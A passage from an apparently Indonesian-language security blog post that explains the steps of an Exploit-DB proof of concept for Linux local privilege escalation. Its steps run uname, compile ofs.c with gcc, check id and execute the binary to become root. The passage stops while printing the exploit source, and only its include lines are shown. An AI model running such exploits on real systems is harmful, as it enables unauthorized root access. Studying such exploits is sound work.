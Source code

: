 ![exploitdb-poc](/assets/img/posts/firststep/exploitdb-poc.png)

Gambar di atas menjelaskan alur atau step yang dilakukan. 

- `$ uname -a` digunakan untuk mengetahui server linux yang digunakan
- `gcc ofs.c -o ofs` adalah command compile file bahasa C, dalam hal ini dengan ofs.c dengan output nama *ofs*
- `id` untuk melihat user id yang sedang kita gunakan
- `./ofs` untuk mengeksekusi file bernama *ofs*


Dari alur tersebut, kita dapat mengerti bahwa ada sebuah file bernama ofs.c dalam bahasa C yang di compile menggunakan `gcc` pada linux dengan output file ofs. Kemudian file ofs dieksekusi, selanjutnya dilihat bahwa id telah berubah menjadi *root*. Menarik.

Adapun file ofs.c berisi sebagai berikut:

{% highlight c linenos %}
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sched.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/mount.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sched.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/mount.h>
#include <sys/types.h>
#include <signal.h>
#include <fcntl.h>
#include <string.h>
#include <linux/sched.h>
